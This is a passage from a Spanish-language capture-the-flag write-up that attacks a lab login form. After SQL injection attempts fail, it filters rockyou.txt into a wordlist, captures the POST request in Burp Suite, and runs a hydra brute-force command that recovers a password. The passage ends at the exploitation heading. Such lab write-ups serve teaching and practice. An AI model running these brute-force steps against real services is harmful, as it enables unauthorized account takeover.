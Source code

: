 Despues de intentar varias **payloads** tipicos de **SQLInjection** determinamos que no es vulnerable a inyecciones **SQL**
Ahora intentaremos realizar un ataque de fuerza bruta, baso en el patron que venia en los comentarios
```bash
# Creamos un diccionario
cat /usr/share/wordlists/rockyou.txt | grep -E '^[a-zA-Z0-9]{8,}$' > password.txt
```

Caputuramos la peticion para ver como es que se esta enviando la data con **burpsuite**:
```bash
POST /login.php HTTP/1.1
Host: 192.168.100.17:8765
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://192.168.100.17:8765
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://192.168.100.17:8765/login.php
Cookie: rl_session=RudderEncrypt%3AU2FsdGVkX18zhpdJkRxsz5q3aTsuo9%2BaumUd2zyTZwtTSnOhPJQxuGeACQTuGNMDK6rjgt2WT8Y1v%2FIG6SHyddsD2GEiXh5QmlPIOs97QrlzLVsUODMlh3oQlOcY1yZmavT17cyKbe6CCcgcEbRzjw%3D%3D; rl_anonymous_id=RudderEncrypt%3AU2FsdGVkX182HMFNa3uYHdgboiUG69%2BpJ9dSi3fFNkQSVwyZGJfGl%2BOqzokl2lpb0fLL%2FDxdWdnbAYDQ%2FUSsuA%3D%3D; rl_page_init_referrer=RudderEncrypt%3AU2FsdGVkX19D8ep3UcOlyjhLmR1LIqBLY5M2fj%2BCzFQ%3D; rl_page_init_referring_domain=RudderEncrypt%3AU2FsdGVkX19Td1u4Qcq1goxFhnV1mG1rbVMmspjWovo%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=usuario@maildelctf.com&password=testing
```

Ahora con **hydra** realizaremos un ataque  de fuerza bruta por **POST** al formulario
```bash
hydra -l usuario@maildelctf.com -P password.txt 192.168.100.17 http-post-form "/login.php:email=^USER^&password=^PASS^:F=Credenciales incorrectas" -f -t 4 -s 8765
```

Tenemos unas posibles llaves de acceso:
```bash
[8765][http-post-form] host: 192.168.100.17   login: usuario@maildelctf.com   password: Password1
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Intentamos loguearnos aqui con estas credenciales:
```bash
http://192.168.100.17:8765/login.php
```
